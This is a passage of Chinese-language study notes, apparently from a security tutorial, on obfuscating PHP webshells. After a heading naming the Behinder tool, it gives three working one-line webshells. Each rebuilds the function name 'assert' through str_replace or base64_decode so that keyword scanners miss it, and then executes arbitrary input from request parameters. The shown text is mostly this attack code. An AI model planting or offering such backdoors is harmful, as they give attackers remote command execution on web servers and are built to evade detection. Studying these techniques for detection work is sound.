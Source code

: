##### e.冰蝎

#### (4)变形

##### a. str_replace

###### ①关键字查找

```php
<?php
$a = str_replace("abc","","aabcsabcsabceabcrabct");
@$a($_REQUEST['cmd']);
?>
```

![str_replace1](../../images/8-17-afternoon/str_replace1.png)

###### ②关键字替换

```php
<?php
$b = "assexx";
$c = str_replace("xx","rt",$b);
@[""=>$c($_GET[_])];
?>
```

![str_replace2](../../images/8-17-afternoon/str_replace2.png)

##### b.  base64_decode()

* 编码替换

```php
<?php
$a = base64_decode("YXNzZXJ0");
$a($_REQUEST['cmd']);
?>
```
